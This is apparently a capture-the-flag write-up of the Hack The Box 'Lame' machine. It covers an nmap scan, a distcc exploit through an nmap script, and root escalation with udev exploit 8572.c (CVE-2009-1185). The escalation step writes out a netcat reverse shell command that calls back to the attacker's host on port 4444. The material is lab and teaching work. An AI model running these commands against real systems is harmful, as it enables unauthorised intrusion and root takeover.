 Lame without Metasploit:

![Lame](https://user-images.githubusercontent.com/55708909/91424966-24d6d500-e878-11ea-8989-bca46c0cc916.png)



Starting with Nmap Scan :

Nmap -sC -sV -T4 -A -O -oA Lame -p- 10.10.10.3

![Lame_nmap](https://user-images.githubusercontent.com/55708909/91425616-01f8f080-e879-11ea-9f03-d54ed3ca7e24.png)

FTP port doesn't have any info to give so i quickly switch to nmap vulnerability scripts as per my own methodology and found one vector to attack

![Lame_vuln](https://user-images.githubusercontent.com/55708909/91427248-3c638d00-e87b-11ea-994b-455883a3dc41.png)

distcc is kind of compilier and nmap has a script to exploit this vulnerability

![Lame_shell](https://user-images.githubusercontent.com/55708909/91429683-610c3480-e87c-11ea-959c-1d02e7e51b5b.png)

For Priviledge Escalation we are going to use 2009-1185

searchsploit -m 8572.c

It require process id of udevd : ps -aux |grep devd

As per this exploit the file run in tmp directory will be running with root priviledges.

run

#/bin/bash

nc -nv 10.10.10.10 4444 -e /bin/bash

transfer the file run in tmp directory and run these commands 

./8572 2688 (as per my pc udevd PID. It can be differet for yours)

and we get reverse connection on netcat at port 4444

![Lame_flag](https://user-images.githubusercontent.com/55708909/91435348-d0395700-e883-11ea-8208-97d55095c9a1.png)










